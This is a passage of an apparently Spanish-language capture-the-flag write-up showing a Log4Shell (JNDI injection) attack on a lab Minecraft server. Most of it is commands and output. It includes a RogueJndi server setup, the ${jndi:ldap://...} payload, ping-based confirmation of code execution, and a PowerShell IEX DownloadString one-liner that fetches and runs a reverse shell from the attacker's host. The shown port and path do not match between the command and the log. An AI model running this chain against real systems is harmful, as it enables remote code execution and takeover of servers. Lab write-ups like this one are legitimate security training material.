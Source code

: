 ```bash
❯ java -jar RJNDI.jar -c 'ping -n 1 10.10.14.92' -n 10.10.14.92
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8000
Starting LDAP server on 0.0.0.0:1389
Mapping ldap://10.10.14.92:1389/o=tomcat to artsploit.controllers.Tomcat
Mapping ldap://10.10.14.92:1389/o=websphere1 to artsploit.controllers.WebSphere1
Mapping ldap://10.10.14.92:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
Mapping ldap://10.10.14.92:1389/o=websphere2 to artsploit.controllers.WebSphere2
Mapping ldap://10.10.14.92:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
Mapping ldap://10.10.14.92:1389/o=groovy to artsploit.controllers.Groovy
Mapping ldap://10.10.14.92:1389/ to artsploit.controllers.RemoteReference
Mapping ldap://10.10.14.92:1389/o=reference to artsploit.controllers.RemoteReference
```

Nos da el puerto del servidor LDAP y algunos mapeos para ejecutar clases Java específicas, usaremos artsploit.controllers.RemoteReference, y cuando enviamos ${jndi:ldap://10.10.14.92:1389/o=reference} en el servidor Minecraft vemos en las consolas que:

```bash
... [snip]
Sending LDAP reference result for http://10.10.14.92:8000/xExportObject.class
new http request from /10.10.11.249:49698 asking for /xExportObject.class
Sending LDAP reference result for http://10.10.14.92:8000/xExportObject.class
new http request from /10.10.11.249:49698 asking for /xExportObject.class
Sending LDAP reference result for http://10.10.14.92:8000/xExportObject.class
new http request from /10.10.11.249:49698 asking for /xExportObject.class
```

```bash
> tshark -i tun0 icmp
    1 0.000000000 10.10.11.249 → 10.10.14.92  ICMP 60 Echo (ping) request  id=0x0001, seq=1/256, ttl=127
    2 0.000069813  10.10.14.92 → 10.10.11.249 ICMP 60 Echo (ping) reply    id=0x0001, seq=1/256, ttl=64 (request in 1)
    3 1.019781479 10.10.11.249 → 10.10.14.92  ICMP 60 Echo (ping) request  id=0x0001, seq=2/512, ttl=127
    4 1.019871252  10.10.14.92 → 10.10.11.249 ICMP 60 Echo (ping) reply    id=0x0001, seq=2/512, ttl=64 (request in 3)
    5 2.042625454 10.10.11.249 → 10.10.14.92  ICMP 60 Echo (ping) request  id=0x0001, seq=3/768, ttl=127
    6 2.042666787  10.10.14.92 → 10.10.11.249 ICMP 60 Echo (ping) reply    id=0x0001, seq=3/768, ttl=64 (request in 5)

Efectivamente, podemos ejecutar comandos. Ahora podemos enviarnos una consola

```bash
❯ java -jar RJNDI.jar -c "powershell IEX((New-Object Net.WebClient).DownloadString('http://10.10.14.92:8000/shell'))" -n 10.10.14.92

    The shell file contained a copy of the ConPtyShell of AntonioCoco

Serving HTTP on 0.0.0.0 port 8001 (http://0.0.0.0:8001/) ...
10.10.11.249 - - [17/Jun/2024 10:58:49] "GET /uwu HTTP/1.1" 200 -
10.10.11.249 - - [17/Jun/2024 10:58:51] "GET /uwu HTTP/1.1" 200 -
10.10.11.249 - - [17/Jun/2024 10:58:52] "GET /uwu HTTP/1.1" 200 -
```
